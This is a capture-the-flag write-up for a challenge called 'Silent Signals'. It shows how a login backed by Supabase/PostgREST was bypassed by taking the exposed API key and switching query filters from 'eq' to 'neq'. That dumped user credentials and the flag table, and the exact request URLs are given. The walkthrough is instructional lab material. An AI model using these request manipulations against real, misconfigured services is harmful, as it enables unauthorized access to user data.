

# Silent Signals

```
Engage in a clandestine mission to decipher the silent signals that traverse the digital landscape. You are tasked to unravel the encrypted secrets concealed within the intricate web of digital communication.
```

# Solution

Like the previous challenge , this challenge too had a login page. Input a randon user and pass (Eg: admin:admin).

On clicking login, a request was sent to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/users?select=*&username=eq.admin&password=eq.admin`. <br/>
I found the values for "username" and "password" fields to be intersting.


On inspecting the request headers, I saw an API key. 

Then I sent a request to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/` with a request header named "apikey" and the API key as the value



There was an endpoint named "flags" and most importantly this API is generated using "PostgREST" which explains why the value for "username" field contains eq. before the actual value. Here "eq" is short for equal to.

I modified the initial request to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/users?select=*&username=neq.admin&password=neq.admin` where "neq" stands for not equal to and this was the response
```json
[{"id":1,"username":"mec","password":"mec"}]
```

To get the flag, I sent a request to `https://rllsmxbhfdomjytdpgtc.supabase.co/rest/v1/flags?select=*&flag=neq.xyz`.

```json
[{"id":1,"flag":"cyberQuest{JMTrZedZpFHgXLH2J9rvxXVJl3ksDKgpfWGPmmh922I=}"}]
```